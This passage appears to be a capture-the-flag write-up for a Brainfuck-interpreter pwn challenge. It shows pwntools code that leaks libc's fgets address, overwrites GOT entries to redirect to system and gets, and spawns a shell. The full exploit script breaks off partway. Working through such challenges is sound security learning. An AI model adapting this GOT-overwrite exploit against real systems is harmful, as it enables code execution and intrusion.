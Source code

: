 ```python
p.sendline(payload)
fgets_addr = u32(p.recv(4))
print("Leaked fgets address:", hex(fgets_addr))
```
use it to calculate the offset, the `gets` and `system` real addresses:
```python
offset = fgets_addr - libc.symbols["fgets"]
print("Offset is: ", offset)

system_addr = libc.symbols['system'] + offset
gets_addr = libc.symbols['gets'] + offset
print("System:", hex(system_addr))
print("Gets:", hex(gets_addr))
```
then we can send all the addresses:
```python
p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(e.symbols['main']))
```
then we can just send `/bin/sh` and get a shell!
```python
p.sendline(b"/bin/sh")
p.interactive()
```
So, `local_exploit.py` should look like this:
```python
from pwn import *

context.log_level = 'error'

class INSTRUCTIONS:
    MOVE_RIGHT = b">"
    MOVE_LEFT = b"<"
    READ = b"."
    WRITE = b","

e = ELF("./bf")
# libc = ELF("./bf_libc.so")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
p = e.process()


p.recvuntil(b"type some brainfuck instructions except [ ]\n")

payload = b''
# change the pointer to be at the GOT['fgets']
payload += INSTRUCTIONS.MOVE_LEFT * (e.sym["tape"] - e.got["fgets"])
# read 4 bytes
payload += (INSTRUCTIONS.READ + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4
# rewrite the got address of `fgets` to `system`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4
# change the pointer to be at the GOT['memset']
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["memset"] - e.got["fgets"])
# rewrite the got address of `memset` to `fgets`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4

# change the pointer to be at the GOT['putchar']
```